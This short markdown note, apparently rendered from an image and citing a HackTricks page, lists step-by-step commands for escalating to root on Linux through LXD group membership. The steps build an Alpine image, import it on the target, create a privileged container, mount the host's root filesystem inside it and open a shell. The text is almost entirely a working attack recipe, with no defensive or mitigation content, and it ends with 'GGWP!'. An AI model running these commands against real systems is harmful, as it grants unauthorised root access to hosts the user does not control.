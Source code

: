 ## Source: https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation

## Steps:

### Attacker: git clone https://github.com/alpinelinux/docker-alpine

### sudo ./build-alpine -a i686

### Transfer to machine for rest of privesc

#### First execute lxc init

#### 1) lxc image list

#### 2) Upload image to target

#### 3) lxc image import <image.tar.gz> --alias myalpine

#### 4) lxc init myalpine jimmy -c security.privileged=true

#### 5) lxc config device add jimmy mydevice disk source=/ path=/mnt/root recursive=true

#### 6) lxc start jimmy

#### 7) lxc exec jimmy /bin/sh

#### 8) GGWP!

